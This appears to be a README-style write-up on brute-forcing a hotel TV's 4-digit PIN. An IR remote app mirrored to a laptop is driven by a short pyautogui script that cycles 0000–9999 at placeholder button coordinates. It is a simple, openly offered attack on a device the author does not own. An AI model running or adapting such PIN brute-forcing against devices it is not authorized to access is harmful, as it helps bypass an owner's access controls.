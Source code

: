 
# Brute forcing this Hotel's TV

Well, I'm staying in this hotel and I'm bored. Let's see if we can brute force the TV, just so we can have something to do.

![scrcpy](brute-force-tv.png)

## Tools

adb  
[scrcpy](https://github.com/Genymobile/scrcpy)  
[sure](https://play.google.com/store/apps/details?id=com.tekoia.sure.activities&hl=en_US)  
[pyautogui](https://pypi.org/project/PyAutoGUI/)  
Phone - with IR(Infra Red) capabilities.

## Method

What we are going to do is a very simple thing.

First we are going to install sure (or any other remote control) app on our phones. It's an app that uses the IR functionality on your phone to emulate a remote control

Second we are going to access our phone on our laptop using scrcpy and adb (check their tutorial).

Third we are going to run the code bellow, kick back and watch it run.

## Code

```python
import time
import pyautogui


dict = {
	'0': (x,y),
	'1': (x,y),
	'2': (x,y),
	'3': (x,y),
	'4': (x,y),
	'5': (x,y),
	'6': (x,y),
	'7': (x,y),
	'8': (x,y),
	'9': (x,y),
}

for i in range(10000): #0 - 9999
	for j in "{:04d}".format(i): #format the number so 0 becomes 0000 - 9999
		pyautogui.click( dict[j] )
		time.sleep(0.1) #click the number and wait a while
	time.sleep(0.3) #cool down time
```

The code is very simple. Given that we are seeing our phone screen on our laptop, all we need to do is map a number on the remote control to a location on the screen, then just run a pyautogui script to automaticy click on the proper numbers as the attack goes on. First it's going to click 0000, then 0001, 0002... so on and so forth. Very basic stuff. The (x,y) on the code above means that you should fill in with the x and y coordinates of the buttons on your screen. You can do something more robust, passing the image of the button and having pyautogui searching it for you, but we are doing things quite simple today.

![tv](IMG_20191121_001530.jpg)
